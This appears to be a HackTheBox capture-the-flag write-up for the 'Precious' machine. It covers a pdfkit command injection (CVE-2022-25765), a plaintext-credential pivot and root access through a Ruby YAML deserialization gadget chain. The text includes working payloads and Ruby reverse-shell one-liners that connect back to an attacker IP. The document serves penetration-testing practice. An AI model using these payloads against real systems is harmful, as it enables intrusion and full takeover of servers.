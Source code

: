 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description: Precious Easy Linux machine
lqip: /assets/img/precious/precious.webp
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
{: .nolineno }
![Nmap Scan TCP](/assets/img/precious/scantcp.png){: .shadow }

> PORT    STATE  SERVICE
> 22/tcp  open   ssh
> 80/tcp  open   http

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }
Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png){: .shadow }

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20``whoami```

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```
{: .nolineno }
And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```
{: .nolineno }
Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 1234
```
{: .nolineno }
```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```
{: .nolineno }
We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```
{: .nolineno }
![Reverse Shell](/assets/img/precious/reverseshell.png){: .shadow }

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png){: .shadow }

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png){: .shadow }

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So let's see what does the script do

```ruby
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```

Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
{: .nolineno }
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png){: .shadow }

## TL;DR 
> Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.
{: .prompt-info }
